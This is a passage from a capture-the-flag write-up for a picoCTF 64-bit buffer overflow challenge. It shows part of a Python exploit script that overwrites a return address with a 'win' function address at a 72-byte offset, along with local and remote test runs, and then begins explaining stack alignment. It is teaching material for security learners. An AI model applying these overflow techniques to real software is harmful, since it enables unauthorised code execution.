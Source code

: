 ```python
    server_output = send_to_server(payload)
    print(get_flag(server_output.decode('utf-8', errors='ignore')))


def generate_payload():
    win_addr = "40123a"
    dist=72
    payload = construct_payload(dist, win_addr)
    print(payload)

def main():
    if(len(sys.argv) <=1):
        print("Please enter operation")
        sys.exit()
    operation=sys.argv[1]
    
    if operation == "payload":
        generate_payload()
    elif operation == "execute":
        execute()
    else:
        print("Invalid operation")
main()
```

The script has two options
- payload - Generates and prints payload as plaintext
- execute - Sends payload to the server

We will use the **payload** option for now  
**Note:** Create a `flag.txt` in the same directory as `vuln` to test it locally
```
─$ printf "$(python script.py payload)" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
Flag
[1]    22375 done                              printf "$(python script.py payload)" | 
       22377 segmentation fault (core dumped)  ./vuln
```
And it works.  
Onto the server now.  
The `execute` option of the script now sends te payload to the server and prints the flag
```
$ python script.py execute
[+] Opening connection to saturn.picoctf.net on port 57043: Done
[+] Receiving all data: Done (0B)
[*] Closed connection to saturn.picoctf.net port 57043
```
However no flag...

If we check the reminder of the flag and hint 2
```
Reminder: local exploits may not always work the same way remotely due to differences between machines.
```
64bit x86 enforces `rsp` 16 byte alignment.  
During the prologue of a function **rsp % 16** is expected to be equal to **8**.  
This is because the `call` instruction pushes the return address, 8 bytes, onto the stack
Then `push %rbp` pushes 8 bytes, realigning it to 16.  
